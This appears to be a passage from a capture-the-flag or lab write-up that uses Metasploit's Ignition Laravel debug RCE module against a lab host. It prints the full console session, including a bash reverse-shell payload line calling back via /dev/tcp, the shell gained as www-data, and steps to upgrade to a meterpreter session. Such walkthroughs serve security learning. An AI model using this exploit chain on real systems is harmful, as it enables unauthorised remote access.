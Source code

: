 ```
msf6 > use 0
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(multi/php/ignition_laravel_debug_rce) > set rhost 10.10.220.131
rhost => 10.10.220.131
msf6 exploit(multi/php/ignition_laravel_debug_rce) > set verbose true
verbose => true
msf6 exploit(multi/php/ignition_laravel_debug_rce) > set lhost 10.18.22.237 
lhost => 10.18.22.237
msf6 exploit(multi/php/ignition_laravel_debug_rce) > exploit

[+] bash -c '0<&146-;exec 146<>/dev/tcp/10.18.22.237/4444;sh <&146 >&146 2>&146'
[*] Started reverse TCP handler on 10.18.22.237:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking component version to 10.10.220.131:80
[*] Debug mode is enabled.
[*] Found PHP 7.4.30 running Laravel 8.26.1
[+] The target appears to be vulnerable.
[*] Trying to detect log file
[*] Found directory candidate /var/www
[*] Checking if /var/www/storage/logs/laravel.log exists
[*] Found log file /var/www/storage/logs/laravel.log
[*] Command shell session 1 opened (10.18.22.237:4444 -> 10.10.220.131:58386) at 2023-10-09 14:38:33 -0400
```

**We got a shell**

```
ls
favicon.ico
index.php
robots.txt
web.config
whoami
www-data
```

### Upgrade to a meterpreter session

We can hit ```ctrl + z``` to background a session

To view what shell we have in background we can use the command ```sessions```

Then to upgrade we can go:

```sessions -u id_of_shell```

```
msf6 exploit(multi/php/ignition_laravel_debug_rce) > sessions 2
[*] Starting interaction with 2...

meterpreter > ls
Listing: /var/www/html
======================
